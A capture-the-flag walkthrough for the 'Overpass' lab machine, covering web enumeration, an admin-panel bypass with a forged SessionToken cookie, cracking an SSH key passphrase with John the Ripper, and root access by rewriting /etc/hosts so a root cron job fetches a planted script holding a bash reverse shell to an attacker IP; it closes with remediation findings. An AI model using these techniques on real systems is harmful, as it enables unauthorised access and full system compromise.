# Overpass

- [Overpass](#overpass)
  - [Overview](#overview)
  - [Service Enumeration](#service-enumeration)
  - [Low-Privilege Access](#low-privilege-access)
  - [Root Access](#root-access)
  - [Findings and Recommendations](#findings-and-recommendations)

## Overview
Walkthrough for Overpass - this challenge has no questions to answer, just the user and root flag.

## Service Enumeration
A port scan reveals the machine is running SSH and a web server on port 80.

 <br>

Navigating to `http://10.10.180.142` brings us to the Overpass homepage.

 <br>

Start a web directory scan.
```
feroxbuster -u http://10.10.180.142 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -k -n -r -t 75 --smart
```

While the scan runs, look around the site.

The Downloads page (`/downloads`) contains binaries for the Overpass application as well as the source code and a build script. Let's download them all. 

Note the *OpenBSD x86-64* link incorrectly points to the MacOS binary. This is fine.

 <br>

`buildscript.sh` has some hardcoded directories, showing the web server may be hosted in a user's home directory. 

 <br>

The web directory scan found an interesting page: `/admin`. <br>

 <br>

As expected, the Administrator area (`/admin`) presents a login form.

 <br>

The page's source code has a reference to `/login.js`.

 <br>

`login.js` contains a function named *login()* that submits the client credentials `/api/login`. However, it appears that if a client has a cookie named `SessionToken` it passes the authentication, regardless of the cookie's value.

 <br>

## Low-Privilege Access
Create a cookie named `SessionToken`. In this case, the value isn't important.

 <br>

Refresh `/admin` to find a message from Paradox and the private SSH key for James. If it's still displaying the login page, make sure the Username and Password fields are empty and then try again.

 <br>

The message mentions a password, indicating there may be a passphrase needed to use the key.

Save the key to a text file and set permissions to read-only.
```
chmod 600 james-rsa.key
```

Convert the key so it can be read by John the Ripper and crack it.
```
ssh2john james-rsa.key > james-rsa.john
john --wordlist=/usr/share/wordlists/rockyou.txt james-rsa.john
```

 <br>

The passphrase is `james13`.

Start an SSH connection as `james` using the private key. Enter the passphrase when prompted. 
```
ssh -i james-rsa.key james@10.10.180.142
```

 <br>

The flag is found at `/home/james/user.txt`.

## Root Access
The system cron table (`/etc/crontab`) has a job configured to run every minute where `root` will download and run the build script from the Overpass website. The download is done with a web request to an FQDN.

 <br>

Also notable is the hosts file being world-writable. `overpass.thm`, the FQDN mentioned in the crontab entry, is mapped to the local host.

 <br>

This presents a chance for a remote file inclusion (RFI). By overwriting the hosts file entry with own IP, Overpass would reach out to the attacking machine to grab `buildscript.sh`, instead of the real location.

On the attacking machine, choose a location to be the web server's root directory. For example: `/tmp`.

Create the `downloads` directory and then `src` underneath, matching the path of the real build script.
```
mkdir downloads
mkdir downloads/src
```

In `downloads/src`, create `buildscript.sh` with a reverse shell payload inside.
```
bash -c 'bash -i >& /dev/tcp/10.13.34.103/443 0>&1'
```

 <br>

Start a web server and Netcat listener.
```
python3 -m http.server 80

nc -nlvp 443
```

Back on Overpass, modify `/etc/hosts` so that the attacking IP maps to overpass.thm. Comment out the original entry.
```bash
#127.0.0.1 overpass.thm
XX.XX.XX.XX overpass.thm
```

 <br>

The shell will appear once the job runs.

 <br>

The flag is found at `/root/root.txt`.

## Findings and Recommendations
**Broken Access Controls**

An unauthenticated user can gain access to the admin panel (`/admin`) using a forged `SessionToken` cookie because credentials are not properly validated. The value can be anything as long as the cookie is presented. Knowledge of a valid username is also not required.

**Unsecured Credentials**

An unsecure SSH key with a weak passphrase was used to gain intial access to the server. Ensure that private SSH keys are stored in a secure location and are protected with a strong passphrase.

A password from an Overpass vault was obtained without authentication. Ensure that contents inside a password vault cannot be easily viewed even with access to the vault file.

**Insecure File Permissions**

Editing the hosts file (`/etc/hosts`) resulted in Overpass talking to an attacker-controlled machine instead of its intended destination. This allowed malicious code to be delivered and was part of the privilege escalation process. Review permissions for the hosts file and ensure it is not world-writable.

**Insecure Scheduled Job**

A scheduled job ran as `root`, reaching out to a fully-qualified domain name (FQDN) to download and execute a shell script. Details of the job were world-readable. With knowledge of the file path, a malicious version of the script was hosted in a web server with the same directory structure.  After modifying the hosts file, the server downloaded and executed a reverse shell, providing root access.

If possible, use a service account to run jobs and avoid configuring them in the global cron table.